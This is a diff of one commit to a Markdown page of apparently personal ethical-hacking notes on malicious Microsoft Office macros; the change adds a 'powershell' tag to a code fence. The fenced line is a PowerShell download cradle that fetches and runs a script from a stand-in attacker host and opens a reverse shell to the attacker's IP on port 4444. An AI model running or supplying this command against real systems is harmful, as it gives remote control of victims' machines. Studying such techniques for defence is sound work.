

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/exploiting-microsoft-office/malicious-macros.md, the part around one of its changes. Rendered like a GitHub page.

````diff
--- a/ethical-hacking/exploiting-microsoft-office/malicious-macros.md
+++ b/ethical-hacking/exploiting-microsoft-office/malicious-macros.md
@@ -97,5 +103,5 @@ Like any successful malware, proper obfuscation techniques is essential for bypa
 _**Fetch From Web Server:**_
 
-```
+```powershell
 IEX(New-Object System.Net.WebClient).DownloadString('http://malicious-host.com/badass_script.ps1');badass_script -c <our-ip> -p 4444 -e powershell
 ```
````
Also changed, not shown: other parts of ethical-hacking/exploiting-microsoft-office/malicious-macros.md (+6 -0 lines).
